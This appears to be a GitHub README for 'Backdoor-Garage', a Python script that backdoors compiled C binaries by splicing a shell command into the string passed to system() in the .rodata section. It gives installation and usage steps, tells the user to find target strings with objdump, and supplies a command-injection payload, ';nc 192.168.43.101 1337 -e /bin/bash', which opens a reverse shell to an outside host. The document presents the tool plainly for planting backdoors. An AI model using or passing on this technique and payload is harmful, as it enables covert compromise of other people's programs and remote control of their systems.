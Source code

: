 # Backdoor-Garage
I don't know whats this method called as I did not find any information related to this backdooring technique . Its something that I came up with . This python scripts appends shell command to the parameter of system() function in C binaries . So when the binary runs the appended shell command runs too. Sometimes the binary gives segfault after executing the command.

# Installation
``` bash
sudo apt-get install python3
```
# Run the script
```bash
python3 backdoor.py
```
# How to use ?

After running it you will see something like this :
![](git.png)

In that input field enter the shell command that the binary you want to backdoor uses . For example if a binary uses the ls command use that as an input . If you are not sure what command your binary uses you can always check the .rodata using objdump.
```bash
objdump -s -j .rodata binary_name
```
Next the program will ask you to enter the malicious command . Make sure you add "; or &" before your command.
```bash
;nc 192.168.43.101 1337 -e /bin/bash
```
This will terminate the first command and add your command.
Then enter the file name and you are good to go . Now the binary file is backdoored.

# Disclaimer
Sometimes this process may overwrite important strings in .rodata section . In this case the binary will give segfault before or after executing the malicious command.
Sorry for the poor code quality as I was in a hurry . 



